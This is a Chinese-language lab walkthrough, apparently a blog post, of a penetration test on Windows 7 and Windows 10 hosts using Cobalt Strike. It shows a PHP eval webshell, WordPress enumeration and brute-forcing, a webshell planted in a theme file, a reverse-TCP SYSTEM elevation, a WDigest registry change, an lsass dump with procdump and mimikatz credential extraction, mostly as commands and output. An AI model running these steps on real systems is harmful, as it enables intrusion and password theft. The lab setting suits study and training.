> <br />eval(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'shell'</span><span style="col<br /></span><span style="color: #0000BB">?></span>
> </span>
> </code>
> ==============================================================
> # 通过浏览器访问得到的结果。
> <?php
> highlight_file(__FILE__);
> eval($_POST['shell']);
> ?> 
> ```
> 
> + `dsuijaddjsfvos.php`该文件是一句话木马。接下来我们需要使用CS生成一个目录然后再进行免杀。
> 
> + 在生成木马之前我们需要创建一个监听器。
> 
> 
> 
> + 你可以能会疑惑为什么需要把监听地址改为**192.168.153.130**。因为Windows Server 2008有两个网卡其中一个网卡是不能和Windows 7通信，**192.168.153.130**这个网卡是可以和Windows 7通信。
> 
> 
> 
> + 由于我们这个反向连接需要在Windows Sever 2008开放4444端口否则会无法连接。
> 
> ```bash
> beacon> shell netsh firewall set portopening tcp 4444 enable
> [*] Tasked beacon to run: netsh firewall set portopening tcp 4444 enable
> [+] host called home, sent: 77 bytes
> [+] received output:
> 
> 重要信息: 已成功执行命令。
> 但不赞成使用 "netsh firewall"；
> 而应该使用 "netsh advfirewall firewall"。
> 有关使用 "netsh advfirewall firewall" 命令
> 而非 "netsh firewall" 的详细信息，请参阅
> http://go.microsoft.com/fwlink/?linkid=121488
> 上的 KB 文章 947709。
> 
> 确定。
> ```
> 
> + 接下来我们就需要利用蚁剑把木马上传到Windows 7的`C:\phpstudy_pro\`目录然后再执行木马。（为什么不是上传到`WWW`目录，因为`C:\phpstudy_pro\`没有写入权限。）
> 
> + 使用蚁剑连接`dsuijaddjsfvos.php`文件的一句话木马。在连接一句话木马之前需要配置一下蚁剑的代理。
> 
> 
> 
> 
> 
> + 执行木马。这里你可以通过上图目录空白右击鼠标打开菜单找到打开终端选项运行木马。
> 
> 
> 
> + 提升权限。
> 
> + 使用`systeminfo`命令并没有找到可以提升权限的漏洞。
> 
> ```bash
> beacon> shell systeminfo
> [*] Tasked beacon to run: systeminfo
> [+] host called home, sent: 41 bytes
> [+] received output:
> 
> 主机名:           WIN-HF4NQED9HKF
> OS 名称:          Microsoft Windows 7 企业版 
> OS 版本:          6.1.7601 Service Pack 1 Build 7601
> OS 制造商:        Microsoft Corporation
> OS 配置:          独立工作站
> OS 构件类型:      Multiprocessor Free
> 注册的所有人:     Windows 用户
> 注册的组织:       
> 产品 ID:          00392-918-5000002-85557
> 初始安装日期:     2022/3/30, 10:48:57
> 系统启动时间:     2022/7/2, 13:07:54
> 系统制造商:       VMware, Inc.
> 系统型号:         VMware Virtual Platform
> 系统类型:         x64-based PC
> 处理器:           安装了 2 个处理器。
>                   [01]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
>                   [02]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
> BIOS 版本:        Phoenix Technologies LTD 6.00, 2020/11/12
> Windows 目录:     C:\Windows
> 系统目录:         C:\Windows\system32
> 启动设备:         \Device\HarddiskVolume1
> 系统区域设置:     zh-cn;中文(中国)
> 输入法区域设置:   zh-cn;中文(中国)
> 时区:             (UTC+08:00)北京，重庆，香港特别行政区，乌鲁木齐
> 物理内存总量:     2,047 MB
> 可用的物理内存:   1,024 MB
> 虚拟内存: 最大值: 4,095 MB
> 虚拟内存: 可用:   3,008 MB
> 虚拟内存: 使用中: 1,087 MB
> 页面文件位置:     C:\pagefile.sys
> 域:               WORKGROUP
> 登录服务器:       \\WIN-HF4NQED9HKF
> 修补程序:         安装了 3 个修补程序。
>                   [01]: KB2534111
>                   [02]: KB4474419
>                   [03]: KB976902
> 网卡:             安装了 1 个 NIC。
>                   [01]: Intel(R) PRO/1000 MT Network Connection
>                       连接名:      本地连接 2
>                       启用 DHCP:   否
>                       IP 地址
>                         [01]: 192.168.153.128
>                         [02]: fe80::8f8:10d9:c4a9:f089
> ```
> 
> + 尝试进程注入，在注入之前需要找到可以注入的进程。
> 
> 
> 
> + 在进程列表找到**phpStudyServer.exe**的进程，我们就尝试注入这个进程吧。
> 
> 
> 
> + 成功注入**phpStudyServer.exe**进程。
> 
> 
> 
> + 抓取明文密码。
> 
> 

### Windws 10

> 由于本文章头开已经知道Windows 10的IP地址这里我就越过扫描192.168.153.0/24这个网段。

#### 信息收集

- 使用CS端口扫描功能查看Windows 10开放的端口。

```bash
beacon> portscan 192.168.153.129 1-1024,3389,5900-6000 none 1024
[*] Tasked beacon to scan ports 1-1024,3389,5900-6000 on 192.168.153.129
[+] host called home, sent: 75389 bytes
[+] received output:
192.168.153.128:445
192.168.153.130:445 (platform: 500 version: 6.1 name: WIN-7DSM1JVE9PO domain: WORKGROUP)
Scanner module is complete

[+] received output:
192.168.153.129:80

[+] received output:
Scanner module is complete
```

+ 使用`nmap`扫描**Windows 10**的80端口是否存在漏洞。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 nmap -p80 192.168.153.129 --script=vuln
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 09:12 EDT
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
...
Nmap scan report for 192.168.153.129
Host is up (0.20s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-trace: TRACE is enabled
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-phpself-xss: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 232.50 seconds
```

+ 通过上面的返回结果我们可以发现**cve2014-3704**这个漏洞并不属于WordPress，接下来我们就使用`nikto`的看看能不能找到有用的信息。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 nikto -host http://192.168.153.129
[proxychains] config file found: /etc/proxychains4.conf
...
[proxychains] DLL init: proxychains-ng 4.16
- Nikto v2.1.6
---------------------------------------------------------------------------
...
+ Target IP:          192.168.153.129
+ Target Hostname:    192.168.153.129
+ Target Port:        80
+ Start Time:         2022-07-02 09:22:10 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
+ Retrieved x-powered-by header: PHP/7.3.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://192.168.153.129/index.php/wp-json/>; rel="https://api.w.org/"
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'x-redirect-by' found, with contents: WordPress
+ Entry '/wp-admin/' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ ERROR: Error limit (20) reached for host, giving up. Last error: 
+ Scan terminated:  15 error(s) and 8 item(s) reported on remote host
+ End Time:           2022-07-02 09:33:10 (GMT-4) (660 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

+ 通过上面的信息可以发现该网站是使用了**WordPress**，我们就可以使用`wpscan`来收集信息。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 wpscan --url http://192.168.153.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
[+] URL: http://192.168.153.129/ [192.168.153.129]
[+] Started: Sat Jul  2 09:34:04 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
 |  - X-Powered-By: PHP/7.3.4
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.153.129/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.153.129/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.153.129/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.153.129/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.9.2 identified (Outdated, released on 2022-03-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.153.129/index.php/feed/, <generator>https://wordpress.org/?v=5.9.2</generator>
 |  - http://192.168.153.129/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.9.2</generator>

[+] WordPress theme in use: twentytwentytwo
 | Location: http://192.168.153.129/wp-content/themes/twentytwentytwo/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.153.129/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://192.168.153.129/wp-content/themes/twentytwentytwo/style.css?ver=1.1
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.153.129/wp-content/themes/twentytwentytwo/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://192.168.153.129/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.153.129/wp-content/plugins/mail-masta/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK                                         > (0 / 137)  0.00%  ETA: ??:??:??
...
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
 Checking Config Backups - Time: 00:04:37 <=============================================================================> (137 / 137) 100.00% Time: 00:04:37

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  2 09:42:55 2022
[+] Requests Done: 172
[+] Cached Requests: 7
[+] Data Sent: 43.302 KB
[+] Data Received: 372.511 KB
[+] Memory used: 227.586 MB
[+] Elapsed time: 00:08:51
```

+ 通过上面的数据并没有找到有用的信息。接下来尝试获取所有用户。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 wpscan --url http://192.168.153.129 -e u
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
[+] URL: http://192.168.153.129/ [192.168.153.129]
[+] Started: Sat Jul  2 09:45:48 2022

[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
Interesting Finding(s):

...
[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.153.129/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Sitemap (Aggressive Detection)
 |   - http://192.168.153.129/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  2 09:46:30 2022
[+] Requests Done: 36
[+] Cached Requests: 25
[+] Data Sent: 9.471 KB
[+] Data Received: 558.291 KB
[+] Memory used: 205.469 MB
[+] Elapsed time: 00:00:42
```

+ 通过上面的数据发现只有一个root的用户应该是管理员我们使用`wpscan`暴力破解看看。

```bash
┌──(kali㉿kali)-[~/Desktop/CS4.4完全汉化版破解]
└─$ proxychains4 wpscan --url http://192.168.153.129 -U root -P top100.txt
...
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
Trying root / 333333 Time: 00:04:30 <=====================================================================================> (99 / 99) 100.00% Time: 00:04:30

[i] No Valid Passwords Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  2 10:20:15 2022
[+] Requests Done: 239
[+] Cached Requests: 41
[+] Data Sent: 87.511 KB
[+] Data Received: 220.998 KB
[+] Memory used: 229.191 MB
[+] Elapsed time: 00:06:39
```

+ 我目前的密码字典目前不能破解。只能看看会不会有密码泄漏，在靶场搭建页面有密码我们我们就使用该密码尝试登陆。



#### 上传木马

+ 接下来我们就可以通过**主题文件编辑器**功能写入一句话木马。


+ 我选择在`inc/patterns/hidden-404.php`文件写入命令执行。



+ 测试写入的代码是否可以执行。



+ 将上传Windows 7的木马到Windows 10。这里通过在WordPress官网下载随便一个插件然后把我们的木马放进压缩包再上传。



+ 然后通过我们在主题写入命令执行该文件就可以了。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 curl 192.168.153.129/a -d "1=wp-content\plugins\classic-editor\js\a.ini"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>500 错误 - phpstudy</title>
  <meta name="keywords" content="">
```



+ 提升到SYSTEM权限。

```bash
beacon> elevate svc-exe b_192.168.153.130
[*] Tasked beacon to run windows/beacon_reverse_tcp (192.168.153.130:4444) via Service Control Manager (\\127.0.0.1\ADMIN$\ba77d60.exe)
[+] host called home, sent: 285738 bytes
[+] host called home, sent: 1819 bytes
[+] received output:
Started service ba77d60 on .
```



+ 接下来就是抓取明文密码了。由于Windows 10抓取密码方式不一样，需要先修改注册表等待重新登陆再截取dmp文件。

+ 修改注册表。

```bash
beacon> shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
[*] Tasked beacon to run: reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
[+] host called home, sent: 145 bytes
[+] received output:
操作成功完成。
```

+ 使用`logoff`命令注销windows10用户。

```bash
beacon> shell logoff
[*] Tasked beacon to run: logoff
[+] host called home, sent: 37 bytes
[+] received output:
'logoff' 不是内部或外部命令，也不是可运行的程序
或批处理文件。
```

+ 在CS无法执行`logoff`命令，只能通过命令执行。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 curl 192.168.153.129/a -d "1=logoff"                    
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
```

+ 上传`procdump64.exe`。

```bash
beacon> upload
[*] Tasked beacon to upload /home/kali/Desktop/procdump64.exe as procdump64.exe
[+] host called home, sent: 401322 bytes
```

+ 使用`procdump64.exe`抓取dmp文件。

```bash
beacon> shell procdump64.exe -accepteula -ma lsass.exe 1.dmp
[*] Tasked beacon to run: procdump64.exe -accepteula -ma lsass.exe 1.dmp
[+] host called home, sent: 77 bytes
[+] received output:

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[01:08:16] Dump 1 initiated: C:\phpstudy_pro\WWW\1.dmp

[+] received output:
[01:08:18] Dump 1 writing: Estimated dump file size is 46 MB.

[+] received output:
[01:08:19] Dump 1 complete: 46 MB written in 2.4 seconds

[+] received output:
[01:08:19] Dump count reached.
```

+ 下载dmp文件。

```bash
beacon> download 1.dmp
[*] Tasked beacon to download 1.dmp
[+] host called home, sent: 13 bytes
[*] started download of C:\phpstudy_pro\WWW\1.dmp (46832222 bytes)
```

+ 使用`mimikatz`读取密码。

```bash
──(kali㉿kali)-[~/Desktop]
└─$ wine /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "sekurlsa::minidump e723ff153" "sekurlsa::logonPasswords full" exit
0040:err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
>>> INIT of 'kerberos' module failed : c0000001
0050:err:ole:start_rpcss Failed to open RpcSs service

mimikatz(commandline) # sekurlsa::minidump e723ff153
Switch to MINIDUMP : 'e723ff153'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'e723ff153' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Local LSA library failed

mimikatz(commandline) # exit
Bye!
```

+ 通过上方的返回结果应该是给杀毒拦截了。

+ 尝试使用CS抓取明文密码功能发现可以直接抓到。



## 完